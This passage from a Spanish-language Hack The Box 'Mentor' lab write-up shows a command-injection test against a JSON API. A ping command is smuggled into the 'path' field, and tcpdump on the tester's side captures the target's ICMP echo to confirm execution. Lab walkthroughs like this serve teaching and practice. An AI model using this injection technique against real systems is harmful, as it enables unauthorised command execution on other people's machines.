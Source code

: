 Le daremos los dos parámetros, la página nos devuelve un mensaje `Done!`

![](/assets/img/HTB/Mentor/done.png)

En este punto intentaremos una inyección de comandos en el campo `path`, así que nos pondremos en escucha con `tcpdump` en escucha de trazas ICMP

```shell
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Ahora editaremos el objeto JSON, por lo que quedaría de la siguiente manera

```json
{
    "body":"l4nder",
    "path":"/etc/passwd;ping -c 1 10.10.14.48;"
}
```

Mandaremos la petición, y obtenemos las trazas ICMP

```shell
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:52:28.337549 IP 10.10.11.193 > 10.10.14.48: ICMP echo request, id 2, seq 1, length 64
19:52:28.337605 IP 10.10.14.48 > 10.10.11.193: ICMP echo reply, id 2, seq 1, length 64
```

